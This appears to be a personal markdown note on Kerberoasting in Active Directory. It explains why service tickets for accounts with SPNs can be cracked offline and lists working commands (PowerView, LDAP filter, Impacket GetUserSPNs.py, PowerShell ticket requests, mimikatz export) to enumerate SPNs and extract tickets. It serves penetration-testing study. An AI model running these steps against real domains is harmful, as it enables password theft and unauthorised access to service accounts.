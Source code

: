 - ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
### Requesting TGS
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py 'mydomain.local@a.drdragon:Password!!' -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```